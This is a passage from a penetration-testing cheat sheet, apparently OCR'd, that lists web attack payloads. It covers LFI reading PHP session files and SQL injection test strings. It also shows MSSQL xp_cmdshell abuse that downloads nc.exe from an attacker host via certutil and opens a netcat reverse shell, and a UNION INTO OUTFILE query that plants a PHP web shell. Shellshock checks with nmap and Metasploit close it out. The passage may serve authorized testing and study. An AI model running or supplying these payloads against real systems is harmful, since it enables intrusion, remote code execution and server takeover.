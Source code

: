             LFI: www.website.com/view.php?page=../../../../../var/lib/php/sess_as7sdfasd87392s
            ```
            
    - **SQLI**
        
        SQLMap
        
        ```sql
        sqlmap -r <burp_file>
        ```
        
        Test for SQLI
        
        ```sql
        '
        '-- -
        ASCII(97)
        ' or 1=1--
        '; waitfor delay ('0:0:20)'--
        wfuzz -u http://<RHOST>/FUZZ -w /usr/share/seclists/Fuzzing/special-chars.txt
        ```
        
        Abuse Command Shell
        
        ```sql
        ' EXEC sp_configure 'xp_cmdshell', 1--
        ' reconfigure--
        ' EXEC xp_cmdshell 'certutil -urlcache -f http://<LHOST>:<LPORT>/nc.exe nc.exe'--
        ' EXEC xp_cmdshell "nc.exe -e cmd.exe <LHOST> <LPORT>";--
        ```
        
    - **RCE through SQLi**
        
        ```sql
        #Through file creation
        union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'
        #if running as database admin, use xp_cmdshell
        http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
        '; exec master.dbo.xp_cmdshell 'command'
        
        #On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
        EXEC sp_configure 'show advanced options', 1;--
        RECONFIGURE;--
        EXEC sp_configure 'xp_cmdshell', 1;--
        RECONFIGURE;--
        
        #On MSSQL 2000:
        EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--
        ```
        
    - **CGI-BIN**
        - Popular Extensions: `.sh` & `.pl`
        - Nmap Check`nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/<vulnerable file>,cmd=ls <RHOST>`
        - MSF Check`auxiliary/scanner/http/apache_mod_cgi_bash_env`
        - MSF Exploit`exploit/multi/http/apache_mod_cgi_bash_env_exec`
    